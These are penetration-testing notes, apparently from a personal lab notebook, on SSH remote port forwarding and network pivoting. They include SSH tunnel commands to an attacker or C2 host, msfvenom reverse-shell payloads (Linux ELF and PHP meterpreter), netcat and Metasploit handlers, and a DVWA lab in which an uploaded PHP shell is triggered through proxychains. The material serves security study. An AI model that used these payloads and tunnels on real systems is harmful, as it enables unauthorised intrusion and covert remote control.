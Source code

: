 # Remote Port Forwarding

## 01 - Usage

```
user@pentestos:~$ cat /etc/ssh/sshd_config
..[snip]..
GatewayPorts yes
..[snip]..
```

### 1.1 - Syntax

#### 1.1.1.1 - Victim port forwarding to the attacker's SSH server

`$ ssh -NTfCq -R [<bind_IP>:]<local_PORT>:<bind_remote_IP>:<bind_remote_PORT> <username>@<attacker_IP>`

#### 1.1.1.2 - Remote Port forwarding reverse shells via SSH Tunnel as C2 Server

`$ ssh -NTfCq -R <local_PORT>:127.0.0.1:<bind_remote_PORT> <username>@<C2_IP>`

- Generate a reverse callback shell and start a shell handler via `netcat`

```
$ msfvenom -p linux/x86/shell/reverse_tcp lhost=<C2_IP> lport=<local_PORT> -f elf -o shell.elf

$ nc -lnvp <bind_remote_PORT>
```

- Generate a reverse callback shell and start a shell handler via `metasploit`

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<C2_IP> lport=<local_PORT> -f elf -o shell.elf

msf > use payload/linux/x86/meterpreter/reverse_tcp

msf payload(linux/x86/meterpreter/reverse_tcp) > set lhost <C2_IP>

msf payload(linux/x86/meterpreter/reverse_tcp) > set lport <bind_remote_PORT>

msf payload(linux/x86/meterpreter/reverse_tcp) > to_handler
```

## 02 - Scenarios

### 2.1 - Reverse SSH Tunneling

TODO: Make a network topology diagram to illustrate the pivoting scenario and redo the lab

```
user@pentestos:~$ ssh fox@10.0.2.15

fox@ubuntulinux:~$ ssh -NTfCq -R 8888:192.168.56.106:80 -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" user@10.0.2.4
```

![[01 - Reverse Port Forwarding.png]]

```
fox@ubuntulinux:~$ ss -antp
State          Recv-Q         Send-Q                 Local Address:Port                    Peer Address:Port          Process
LISTEN         0              128                          0.0.0.0:22                           0.0.0.0:*
LISTEN         0              128                          0.0.0.0:8888                         0.0.0.0:*
ESTAB          0              0                           10.0.2.4:42586                      10.0.2.15:22             users:(("ssh",pid=5282,fd=3))
ESTAB          0              0                           10.0.2.4:22                         10.0.2.15:44498
LISTEN         0              128                             [::]:22                              [::]:*
LISTEN         0              128                             [::]:8888                            [::]:*
```

- Grab the port using [[Local Port Forwarding|local port forwarding]] method. Then navigate through the web browser.

`user@pentestos:~$ ssh -L 8888:127.0.0.1:8888 fox@10.0.2.15`

### 2.2 - Reverse SSH Tunnel via Reverse Callback Shell

TODO: Make a network topology diagram to illustrate the pivoting scenario and redo the lab

`user@pentestos:~$ ssh fox@10.0.2.15 -NTfCq -D1080 -R 192.168.56.111:4455:127.0.0.1:4445`

![[01 - Reverse Shell Tunnel.png]]

`user@pentestos:~$ msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.111 lport=4455 -f raw -o rsh.php`

Launch a shell handler in metasploit for incoming sessions.

```
msf6 > use exploit/mutli/handler
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 > exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 > exploit(multi/handler) > set lhost 192.168.56.111
lhost => 192.168.56.111
msf6 > exploit(multi/handler) > set lport 4445
lport => 4445
msf6 > exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[-] Handler failed to bind to 192.168.56.111:4445:-  -
[*] Started reverse TCP handler on 0.0.0.0:4445
```

Upload the reverse shell.

![[02 - PHP File Upload.png]]

Edit the Proxychains configuration.

```
user@pentestos:~$ cat /etc/proxychains4.conf
..[snip]..
socks5  127.0.0.1 1080
```

Then execute the reverse shell.

```
user@pentestos:~$ proxychains curl -X GET http://192.168.56.106/dvwa/hackable/uploads/rsh.php
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.106:80  ...  OK

user@pentestos:~$ curl --socks5 127.0.0.1:1080 -X GET http://192.168.56.106/dvwa/hackable/uploads/rsh.php
```

We have established a meterpreter reverse shell.

![[03 - MSF Reverse Callback Shell.png]]

---
## References

- [LinuxHint: SSH StrickHostKeyChecking](https://linuxhint.com/ssh-stricthostkeychecking/)

- [SkyDogCon 2017: "SSH+MSF+TOR = Anonymous Remote Shells" by Catatonic Prime](https://www.youtube.com/watch?v=RvZ9-hD-KZw)

- [PayloadsAllTheThings: Network Pivoting Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)

- [FareedFauzi OSCP Playbook: Port Forwarding SSH Tunneling](https://fareedfauzi.gitbook.io/oscp-notes/others/port-forwarding-ssh-tunneling)

- [Certcube: Pivoting and SSH Port Forwarding Basics](https://blog.certcube.com/pivoting-and-ssh-port-forwarding-basics/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

- [RawSec: Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

### Scenarios

- [Bryan Leong (NobodyAtall): Network Pivoting Using SSH Return Reverse Shell From Internal Network Machine](https://bryanleong98.medium.com/network-pivoting-using-ssh-return-reverse-shell-from-internal-network-machine-f1c5043b2d86)

- [Anestis Bechtsoudis: Using SSH Socks Proxies with MSF Reverse TCP Payloads](https://bechtsoudis.com/archive/2012/06/08/using-ssh-socks-proxies-with-msf-reverse-tcp-payloads/index.html)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)